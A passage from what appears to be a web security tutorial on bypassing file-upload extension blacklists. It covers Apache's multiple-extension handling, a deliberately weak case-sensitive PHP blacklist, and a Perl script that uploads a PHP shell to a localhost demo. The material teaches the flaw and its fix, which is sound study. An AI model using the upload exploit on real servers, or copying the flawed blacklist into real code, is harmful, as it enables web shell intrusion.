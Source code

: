 Second Attack Method
==============

The second method consists in using some features of Apache.

In this technique, the developer extracts the file extension by looking for the ‘.’ character in the filename, and extracting the string after the dot character. This method for bypassing blacklisting is both simple and realistic, so let’s have a look at how Apache handles files with multiple extensions. The Apache manual states:

> Files can have more than one extension, and the order of the extensions is normally irrelevant. For example, if the file welcome.html.fr maps onto content type text/html and language French then the file welcome.fr.html will map onto exactly the same information. If more than one extension is given which maps onto the same type of meta-information, then the one to the right will be used, except for languages and content encodings. For example, if .gif maps to the MIME-type image/gif and .html maps to the MIME-type text/html, then the file welcome.gif.html will be associated with the MIME-type text/html.

Based on the previous quote we know that if we create a file called “shell.php.blah”, this file will be interpreted and executed as a PHP file. This only works because the last extension wasn’t specified on the list of MIME-types known to the web server. So the web server will execute the MIME-types that it can recognize, which, in this case, is PHP as mentioned earlier in the quote.

Third Attack Method

We can make a blacklist of file extensions, and check the file names specified by the user to make sure that they do not have any of the bad extensions that are already known. Here is the Demo2.php:

    <!-- lang: php -->
    $blacklist = array(".php","html","shtml",".phtml", ".php3", ".php4");
    foreach ($blacklist as $item) {
        if(preg_match("/$item$/", $_FILES['uploadedfile']['name'])) {
            echo "We do not allow uploading PHP filesn";
            exit;
        }
    }
    $uploaddir = 'uploads/';
    $uploadfile = $uploaddir . basename($_FILES['uploadedfile']['name']);
    if (move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $uploadfile)) {
        echo "File is valid, and was successfully uploaded.n";
    } else {
        echo "File uploading failed.n";
    }

You can bypass this simply by changing the extension from “.php” to “.PHP”. The method is really basic, in that code we just search for the lowercase of “php”. So the developer must change (**$_FILES['uploadedfile']['name']**) to lowercase, and then search for the extensions OR use “/i” that makes the regex match case insensitive.

The Perl script shown below uploads a PHP shell to the server using Demo2.php:

    <!-- lang: perl -->
    #!/usr/bin/perl
    #
    use LWP;
    use HTTP::Request::Common;
    $ua = $ua = LWP::UserAgent->new;;
    $res = $ua->request(POST 'http://localhost/Demo2.php',
    Content_Type => 'form-data',
    Content => [
    userfile => ["shell.PHP", "shell.PHP", "Content-Type" =>"image/gif"],
    ],
    );
    print $res->as_string();
